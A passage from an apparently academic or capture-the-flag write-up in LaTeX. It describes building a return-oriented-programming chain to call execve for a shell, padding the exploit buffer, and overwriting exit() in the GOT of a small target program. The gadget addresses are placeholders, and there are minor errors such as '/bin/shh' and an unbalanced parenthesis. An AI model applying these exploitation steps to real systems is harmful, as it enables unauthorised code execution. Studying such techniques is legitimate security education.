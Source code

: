 \subsection{ROP chain}
By writing the {\tt execve("/bin/shh")} code in C and looking at the assembly, we list the content of the registers we need to set up.
\begin{enumerate}
\item rax: execve code, 0x3b.
\item rdi: address of "/bin/shh" string, needs to be followed by a null byte.
\item rsi and rdx: 0x0.
\end{enumerate}
The implementation of the ROP chain in the exploit buffer is as followed:
{\tt \small
\begin{verbatim}
exploit += <pop rax address>
exploit += 0x000000000000003b
exploit += <pop rdi address>
exploit += <address of "/bin/shh">
exploit += <pop rsi address>
exploit += 0x0000000000000000
exploit += <pop rdx address>
exploit += 0x0000000000000000
\end{verbatim}
}
We used the struct package and its pack() function in our exploit to implement this ROP chain.

\subsection{Padding}
Padding to cover the whole buffer is optional but useful when creating the exploit. If we need to add something before the exit addresses, their position will change and we will need to start again, determining their position to point at it again. With a padding, the position of the exit addresses will stay the same whatever we append to the exploit buffer before padding. We implemented the padding as follow:
\begin{verbatim}
def pad(s):
	return s+X*(buffer_size - len(s)
             - exit_addresses_size)
exploit = pad(exploit)
\end{verbatim}


\subsection{Exit addresses}
The exit address in the GOT can be determined simply by disassembling peanut(). We see that the function called is {\tt <exit@plt>}, which jumps directly to another address, which is the place in the GOT which store the real address of exit(). In our case, this address is {\tt 0x601030}.
